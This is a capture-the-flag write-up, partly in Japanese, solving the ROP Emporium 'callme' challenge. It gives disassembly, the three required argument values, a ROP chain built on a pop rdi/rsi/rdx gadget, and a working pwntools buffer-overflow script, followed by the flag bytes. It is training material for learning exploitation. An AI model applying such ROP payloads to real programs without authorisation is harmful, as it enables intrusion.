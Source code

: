 # callme(ROP Emporium 3)

## info

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

### usefulFuntion: 0x4008f2
```asm
00000000004008f2 <usefulFunction>:
  4008f2:	55                   	push   rbp
  4008f3:	48 89 e5             	mov    rbp,rsp
  4008f6:	ba 06 00 00 00       	mov    edx,0x6
  4008fb:	be 05 00 00 00       	mov    esi,0x5
  400900:	bf 04 00 00 00       	mov    edi,0x4
  400905:	e8 e6 fd ff ff       	call   4006f0 <callme_three@plt>
  40090a:	ba 06 00 00 00       	mov    edx,0x6
  40090f:	be 05 00 00 00       	mov    esi,0x5
  400914:	bf 04 00 00 00       	mov    edi,0x4
  400919:	e8 22 fe ff ff       	call   400740 <callme_two@plt>
  40091e:	ba 06 00 00 00       	mov    edx,0x6
  400923:	be 05 00 00 00       	mov    esi,0x5
  400928:	bf 04 00 00 00       	mov    edi,0x4
  40092d:	e8 ee fd ff ff       	call   400720 <callme_one@plt>
  400932:	bf 01 00 00 00       	mov    edi,0x1
  400937:	e8 14 fe ff ff       	call   400750 <exit@plt>
```

### callme_one, two, three
need 3 arguments: `rdi`, `rsi`, `rdx`
```asm
 82e:	48 b8 ef be ad de ef 	movabs rax,0xdeadbeefdeadbeef
 835:	be ad de 
 838:	48 39 45 e8          	cmp    QWORD PTR [rbp-0x18],rax
 83c:	0f 85 d0 00 00 00    	jne    912 <callme_one+0xf8>
 842:	48 b8 be ba fe ca be 	movabs rax,0xcafebabecafebabe
 849:	ba fe ca 
 84c:	48 39 45 e0          	cmp    QWORD PTR [rbp-0x20],rax
 850:	0f 85 bc 00 00 00    	jne    912 <callme_one+0xf8>
 856:	48 b8 0d f0 0d d0 0d 	movabs rax,0xd00df00dd00df00d
 85d:	f0 0d d0 
 860:	48 39 45 d8          	cmp    QWORD PTR [rbp-0x28],rax
 864:	0f 85 a8 00 00 00    	jne    912 <callme_one+0xf8>
```
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d

### callme_one
```c
FILE f = fopen("encrypted_flag.dat", "r");
if (f == NULL) {
    exit(1);
}

char *g_buf = malloc(0x21);
char *ret = fgets(g_buf, 0x21, f);
fclose(f);
puts("callme_one() called correctly");
```

### callme_two
```c
FILE f = fopen("key1.dat", "r");
if (f == NULL) {
    exit(1);
}

for (int i = 0; i < 0x10; i++) {
    int ch = fgetc(f);
}

fclose(f);
puts("callme_one() called correctly");
```

この順番で呼ぶ: callme_one -> callme_two -> callme_three

## Solution
call functions by plt

### strategy
1. call `usefulGadget` with 3 arguments
2. call `callme_one@plt`, `callme_two@plt`, `callme_three@plt`

ROP chain:
- pop rdi, rsi, rdx; ret: 0x40093c
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_one@plt: 0x400720
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_two@plt: 0x400740
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_three@plt: 0x4006f0

## Script
```python
from pwn import *

conn = process('./callme')

payload = b'A' * 0x28
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400720)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400740)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x4006f0)

conn.sendlineafter('> ', payload)
conn.interactive()
```

## OMAKE
encrypted_flag: 
```
00000000  53 4d 53 41 91 d9 f5 a6  8a d5 c5 b7 db db 9d be  |SMSA............|
00000010  ca da b2 ed 2a 84 63 bc  71 b5 70 a0 7c 79 3e 5d  |....*.c.q.p.|y>]|
```

true flag: 
```
00000000  52 4f 50 45 7b 61 5f 70  6c 61 63 65 68 6f 6c 64  |ROPE{a_placehold|
00000010  65 72 5f 33 32 62 79 74  65 5f 66 6c 61 67 21 7d  |er_32byte_flag!}|
```